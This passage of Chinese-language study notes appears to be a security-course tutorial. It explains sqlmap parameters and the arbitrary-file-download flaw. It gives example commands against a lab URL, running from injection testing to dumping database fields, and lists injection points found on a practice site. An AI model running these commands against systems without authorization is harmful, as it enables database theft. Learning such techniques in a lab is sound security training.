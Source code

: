  ```
#### 		2. 参数

* 参数可以随机组合，顺序没有要求

  | 参数名称         | 含义                     |
  | ---------------- | ------------------------ |
  | -D               | 指定数据库               |
  | -T               | 指定表格                 |
  | -C               | 指定字段                 |
  | -dbs             | 列出当前数据库           |
  | --database --dbs | 获取数据库列表           |
  | --tables         | 获取当前条件下所有表     |
  | --columns        | 获取字段列表             |
  | --current-db     | 获取当前数据库           |
  | --current-user   | 获取当前用户             |
  | --dump           | 导出内容（慎重使用！！） |
  | --flush-session  | 清除sqlmap注入的缓存     |
  | --batch          | 表示使用推荐选项         |

#### 	3. 任意漏洞下载

* 定义：在传递参数或者权限校验时用户可以自由传递下载内容
* 对下载的内容（参数）进行解码，解析下载位置后，可以自由编码想要下载的内容，并进行下载
* 适用于有**下载专区**的网站

#### 4. 实例

```
sqlmap -u [url] //测试某一url是否存在sql注入

	--current-db //查询当前数据库（推荐使用）
	--tables -D [数据库名]
	--columns -T [字段名] -D [数据库名]
例：
sqlmap -u http://192.168.71.36/Less-1/?id=2 //对某一url进行sql注入测试
sqlmap -u [url] --current-db //查询当前数据库名称
sqlmap -u [url] --tables -D [数据库名] //查询当前数据库下的表
sqlmap -u [url] --columns -T [字段名] -D [数据库名] //查询某一张表的字段
sqlmap -u [url] -D [数据库名] -T [表名] -C [字段名] --dump //将指定数据库的指定表的指定字段的数据脱机
```

### 3. 实战

#### 1. 第一个网站

##### 	1. 注入点1

* news.php页面
* ![](../../images/7.14-afternoon-first/injection1.png)

##### 	2. 注入点2

* course.php页面
* ![](../../images/7.14-afternoon-first/injection2.png)

##### 	3. 注入点3

* Download.php
* ![](../../images/7.14-afternoon-first/injection3.png)

##### 	4.注入点4

* Q&A问答
* ![](../../images/7.14-afternoon-first/injection4.png)
```